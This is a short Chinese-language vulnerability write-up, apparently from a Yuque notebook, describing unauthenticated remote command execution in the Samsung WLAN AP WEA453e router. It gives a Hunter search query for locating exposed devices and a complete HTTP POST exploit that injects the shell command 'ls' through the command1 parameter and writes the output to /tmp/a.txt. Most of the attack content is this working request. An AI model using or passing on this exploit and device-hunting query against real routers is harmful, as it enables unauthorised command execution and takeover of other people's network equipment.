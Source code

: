 # 三星路由器WLAN AP 远程命令执行漏洞

# 一、漏洞简介
三星 WLAN AP WEA453e路由器存在远程命令执行漏洞，可在未授权的情况下执行任意命令获取服务器权限。

# 二、影响版本
+ 三星 WLAN AP WEA453e路由器

# 三、资产测绘
+ hunter`web.title="Samsung WLAN AP"`
+ 特征

![1699981974720-33031d9c-1da8-4cf7-87e1-1b3f1b65341d.png](./img/WlFtd27uvNlv3_yd/1699981974720-33031d9c-1da8-4cf7-87e1-1b3f1b65341d-028838.png)

# 四、漏洞复现
```plain
POST /(download)/tmp/a.txt HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

command1=shell:ls | dd of=/tmp/a.txt
```

![1699982002400-dfea75e4-b2c9-4cb8-8d27-d9045ae51bcd.png](./img/WlFtd27uvNlv3_yd/1699982002400-dfea75e4-b2c9-4cb8-8d27-d9045ae51bcd-101621.png)



> 更新: 2024-02-29 23:57:13  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ae6xqzhcp3o4cl3m>